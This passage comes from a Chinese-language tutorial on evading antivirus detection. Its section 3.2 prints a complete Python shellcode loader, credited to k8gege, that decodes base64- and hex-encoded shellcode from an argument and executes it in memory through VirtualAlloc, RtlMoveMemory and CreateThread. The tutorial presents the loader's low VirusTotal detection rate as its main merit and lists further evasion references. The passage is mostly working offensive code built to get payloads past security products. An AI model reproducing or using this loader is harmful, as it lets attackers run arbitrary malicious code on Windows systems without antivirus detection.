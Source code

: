 ## 3.2 方法2：base64加密(VT免杀率3/56)

和上面的3.1一样，也是k8的大作，使用了base64+hex的方式处理shellcode。

文件`ScRunBase64.py`代码如下

```
#scrun by k8gege
import ctypes
import sys
import base64
shellcode=bytearray(base64.b64decode(sys.argv[1]).decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

virustotal.com上`ScRunBase64.py`查杀率4/58

![714c820eaacb842bc515130f7dfe416b](images/2020.04-bypass-05/24.png)


# 4 参考资料

CS强化_python免杀：`https://mp.weixin.qq.com/s/9U7TJiLTIVQNvEakJ-yIAA`

shellcode加载总结:`https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html`  